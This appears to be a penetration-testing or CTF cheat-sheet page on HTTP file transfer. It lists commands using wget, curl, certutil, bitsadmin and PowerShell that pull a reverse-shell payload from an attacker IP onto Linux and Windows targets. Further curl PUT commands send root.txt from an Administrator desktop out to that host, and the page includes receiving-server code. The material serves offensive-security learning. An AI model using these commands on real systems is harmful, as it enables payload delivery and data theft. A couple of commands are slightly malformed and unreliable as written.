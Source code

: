 ```yaml
---
layout: default
title: HTTP Transfer
permalink: /http_transfer/
---
```


## Transfering over HTTP

### Method 1

#### Sender

`python3 -m http.server 8000`
`python -m SimpleHTTPServer`

#### Receiver
##### Linux
`wget http://10.10.10.79:8000/rev_shell.sh -O /tmp/rev_shell.sh` <br>
`curl http://10.10.10.79:8000/rev_shell.sh -o /tmp/rev_shell.sh` <br>

##### Windows
`curl http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe` <br>
You need to mention the -o (-OutFile) flag in order to save the file. If we do not mention the flag then it will only return it as an object i.e., WebResponseObject. <br>
`certutil -urlcache -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe` <br>
`certutil -urlcache -split -f http://10.10.10.79:8000/rev_shell.exe rev_shell.exe` <br>
(The -split option in certutil is used to split large files into smaller segments to perform the file transfer.) <br>
`bitsadmin /transfer job ttp://10.10.10.79:8000/rev_shell.exe C:\Users\Public\rev_shell.exe` <br>
Bitsadmin is a command-line utility for handling Background Intelligent Transfer Service (BITS) tasks in Windows. It facilitates different file transfer operations, including downloading and uploading files.  <br>
`powershell wget http://10.10.10.79:8000/rev_shell.exe -o rev_shell.exe`
`powershell -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.79:8000/rev_shell.exe', 'rev_shell.exe')`
instantly execute it:
``

### Method 2

#### Sender

`curl -T root.txt http://10.10.10.79:8080`

`curl -X PUT --data-binary@"C:\Users\Administrator\Desktop\root.txt" http://10.10.10.79:8080/root.txt`

#### Receiver

python3 -m SimpleHTTPPutServer 8080

[SimpleHTTPPutServer.py](https://gist.github.com/fabiand/5628006)

```
# python3 -m SimpleHTTPPutServer 8080

from http.server import HTTPServer, SimpleHTTPRequestHandler

class PutHTTPRequestHandler(SimpleHTTPRequestHandler):
    def do_PUT(self):
        print(self.headers)
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))
        self.send_response(200)
        self.end_headers()


def run(server_class=HTTPServer, handler_class=PutHTTPRequestHandler):
    server_address = ('', 8000)
    httpd = server_class(server_address, handler_class)
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

Or

`python3 webserver.py

webserver.py
```
from flask import Flask, request
import os

app=Flask(__name__)

@app.route('/root.txt', methods=['PUT'])
def upload_file():
    file=request.data
    with open('root.txt','wb') as f:
        f.write(file)
    return "File Uploaded successfully", 200

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=8080)

```
